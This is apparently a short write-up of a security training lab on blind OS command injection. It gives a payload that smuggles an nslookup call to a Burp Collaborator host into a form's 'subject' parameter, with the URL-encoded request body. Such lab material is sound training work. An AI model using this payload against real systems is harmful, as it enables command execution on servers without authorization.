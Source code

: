 # Lab: Blind OS command injection with out-of-band interaction
## Description

1. Used the Burp Scanner to find the injection point. Which instantly solved the Lab.

## Solution

Take the following payload:
```
test&nslookup -q=cname 59cgselw1fmquoaadu9gv9ue95fw3l.burpcollaborator.net.&'\"`0&nslookup -q=cname 59cgselw1fmquoaadu9gv9ue95fw3l.burpcollaborator.net.&`'
```
URL-encode it pass it to the vulnerable `subject` input parameter. Example:

```
csrf=xQdUYjONTTQAvF6WCvvRk1o3fpNXFmdf&name=test&email=test%40test.com&subject=test%26nslookup+-q%3dcname+59cgselw1fmquoaadu9gv9ue95fw3l.burpcollaborator.net.%26'\"`0%26nslookup+-q%3dcname+59cgselw1fmquoaadu9gv9ue95fw3l.burpcollaborator.net.%26`'&message=test
```
